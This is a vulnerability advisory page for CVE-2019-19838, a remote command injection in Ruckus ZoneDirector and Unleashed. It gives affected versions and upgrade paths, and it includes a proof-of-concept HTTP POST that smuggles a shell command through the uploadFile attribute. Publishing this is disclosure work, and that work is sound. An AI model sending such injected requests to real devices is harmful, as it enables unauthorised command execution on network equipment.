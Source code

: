 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'critical'
alephid: ALEPH-2019008
cve: CVE-2019-19838
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Remote command injection via a crafted HTTP request (cmdImportAvpPort)'

---
```


Remote command injection via a crafted HTTP request, caused by insufficient input validation

`cmdImportAvpPort()` function in `emfd` executable runs `system()` with insufficient input validation on `fileUpload` attribute. As a result a crafted POST request with attribute `xcmd=import-avpport` to the web interface page `/admin/_cmdstat.jsp` injects OS command.

Information about the exploitation of the vulnerability can be found in our [blog post](/2020/01/13/ruckus-wireless/) or the [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=1860).


## Proof Of Concept ##
Jail breaking Ruckus CLI using this exploit
``` http
POST /tools/_cmdstat.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
X-CSRF-Token: oaMM8EBv1Y
Content-Length: 336
Cookie: -ejs-session-=x236a14bd195e0f136942005c785bac52

<ajax-request action='docmd' xcmd='get-platform-depends' updater='system.1568118269965.3208' comp='system'> 
	<xcmd cmd='import-avpport' uploadFile='; echo "inject" >/tmp/botox'  type='wlan-maxnums'/>
</ajax-request>
```
